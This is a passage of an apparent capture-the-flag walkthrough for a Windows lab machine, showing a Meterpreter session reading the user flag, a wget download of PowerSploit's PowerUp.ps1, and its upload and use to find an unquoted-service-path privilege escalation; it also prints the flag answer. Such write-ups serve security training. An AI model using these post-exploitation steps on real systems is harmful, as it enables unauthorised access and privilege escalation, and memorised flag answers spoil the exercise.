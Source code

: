 With the meterpreter session, we get the user flag:
```shell-session
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
meterpreter > cd ../../../../../../../
meterpreter > pwd
C:\Users\bill

meterpreter > ls Desktop\\
Listing: Desktop\
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 14:37:07 +0330  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 16:12:38 +0330  user.txt

meterpreter > cd Desktop\\
meterpreter > cat user.txt 
��b04763b6fcf51fcd7c13abc7db4fd365
```

We thus have our user flag:

> Use Metasploit to get an initial shell. What is the user flag?
>
> Answer: `b04763b6fcf51fcd7c13abc7db4fd365`

## Privilege Escalation

As instructed in the room's task description, we'll need to use the [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) script. Downloading the script using a simple `wget` command:
```shell-session
$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

We can upload this script using our meterpreter session and then execute it:
```shell-session
meterpreter > upload PowerUp.ps1
...

meterpreter > load powershell
Loading extension powershell...Success.

meterpreter > powershell_shell 
PS > whoami
steelmountain\bill

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```